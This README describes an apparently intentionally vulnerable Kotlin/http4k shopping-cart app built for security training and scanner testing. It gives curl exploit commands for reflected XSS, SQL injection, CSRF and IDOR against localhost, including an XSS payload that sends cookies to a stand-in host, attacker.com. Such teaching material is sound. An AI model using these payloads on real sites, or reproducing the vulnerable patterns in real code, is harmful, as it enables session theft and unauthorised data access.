 # Vulnerable Kotlin Shopping Cart (http4k)

⚠️ **WARNING**: This application contains intentional security vulnerabilities for educational and testing purposes. **DO NOT** use this code in production environments!

## Overview

This is a deliberately vulnerable web application built with Kotlin, http4k, and jsoup. It demonstrates common web application security vulnerabilities including XSS, SQL Injection, CSRF, and IDOR.

## Features

- Shopping cart functionality with product listing
- Multiple intentional security vulnerabilities
- HTTP4K-based REST API
- Jsoup HTML parsing for cart widget extraction
- Simple, minimal codebase for easy understanding

## Requirements

- Java 17 or higher
- Gradle (wrapper included)

## Building and Running

### Build the project:
```bash
./gradlew build
```

### Run the application:
```bash
./gradlew run
```

The server will start on http://localhost:9000

### Run tests:
```bash
./gradlew test
```

## Vulnerabilities and Exploits

### 1. Reflected XSS (Cross-Site Scripting)

**Location:** `/greet` endpoint

**Description:** User input is reflected in the HTML response without any sanitization or encoding.

**Exploit with CURL:**
```bash
# Basic XSS test
curl "http://localhost:9000/greet?name=<script>alert('XSS')</script>"

# Cookie stealing XSS
curl "http://localhost:9000/greet?name=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>"

# DOM manipulation
curl "http://localhost:9000/greet?name=<img src=x onerror=alert('XSS')>"
```

**Expected Result:** The malicious script tags are embedded directly in the HTML response without escaping.

---

### 2. SQL Injection (Simulated)

**Location:** `/search` endpoint

**Description:** Search query is concatenated into SQL-like string without parameterization.

**Exploit with CURL:**
```bash
# Basic SQL injection to retrieve all products
curl "http://localhost:9000/search?q=laptop%27%20OR%20%271%27=%271"

# Alternative payload
curl "http://localhost:9000/search?q=%27%20OR%201=1%20--"
```

**Expected Result:** Returns all products instead of just matching ones, demonstrating SQL injection success.

---

### 3. CSRF (Cross-Site Request Forgery)

**Location:** `/cart/add` endpoint

**Description:** State-changing operations can be performed without CSRF token validation.

**Exploit with CURL:**
```bash
# Add items to any user's cart without authentication
curl -X POST "http://localhost:9000/cart/add?user=victim&product=1"
curl -X POST "http://localhost:9000/cart/add?user=victim&product=2"

# Verify items were added
curl "http://localhost:9000/cart?user=victim"
```

**Expected Result:** Items are added to the cart without any CSRF protection.

---

### 4. IDOR (Insecure Direct Object Reference)

**Location:** `/cart` endpoint

**Description:** Any user can view any other user's cart by manipulating the user parameter.

**Exploit with CURL:**
```bash
# First, add items to different users' carts
curl -X POST "http://localhost:9000/cart/add?user=alice&product=1"
curl -X POST "http://localhost:9000/cart/add?user=bob&product=2"
curl -X POST "http://localhost:9000/cart/add?user=admin&product=3"

# Now access other users' carts without authentication
curl "http://localhost:9000/cart?user=alice"
curl "http://localhost:9000/cart?user=bob"
curl "http://localhost:9000/cart?user=admin"
```

**Expected Result:** Can view any user's cart without authentication or authorization checks.

---

## Shopping Cart Widget Client

The `DemoShoppingCartClient` class demonstrates using http4k and jsoup to fetch and parse HTML widgets:

```kotlin
val client = DemoShoppingCartClient(httpHandler)
val cartWidget = client.fetchCartWidget()
```

This fetches the `/header-widget` endpoint and extracts the cart icon HTML using CSS selector `div.cart-icon-link`.

## API Endpoints

| Method | Path | Description |
|--------|------|-------------|
| GET | `/` | Home page with product list and test links |
| GET | `/greet?name=<name>` | Vulnerable XSS endpoint |
| GET | `/search?q=<query>` | Vulnerable search with SQL injection |
| POST | `/cart/add?user=<user>&product=<id>` | Add item to cart (CSRF vulnerable) |
| GET | `/cart?user=<user>` | View cart (IDOR vulnerable) |
| GET | `/header-widget` | Cart widget HTML fragment |

## Project Structure

```
kotlin-http4k-fn/
├── build.gradle.kts                    # Gradle build configuration
├── settings.gradle.kts                 # Gradle settings
├── src/
│   ├── main/
│   │   └── kotlin/
│   │       └── com/example/demo/
│   │           ├── Main.kt             # Main application with vulnerable endpoints
│   │           └── external/cart/
│   │               └── DemoShoppingCartClient.kt  # Widget client with jsoup
│   └── test/
│       └── kotlin/
│           └── com/example/demo/
│               └── VulnerableShoppingCartAppTest.kt  # Tests
└── README.md
```

## Dependencies

- **http4k-core**: Lightweight HTTP toolkit for Kotlin
- **http4k-server-netty**: Netty server backend
- **jsoup**: HTML parser for widget extraction

## Security Notes

This application is designed for:
- Security testing and training
- Demonstrating common vulnerabilities
- Testing security scanning tools
- Educational purposes

**Do NOT:**
- Deploy to production
- Expose to the internet
- Use as a template for real applications
- Store real user data

## License

This is a demonstration project for security testing purposes.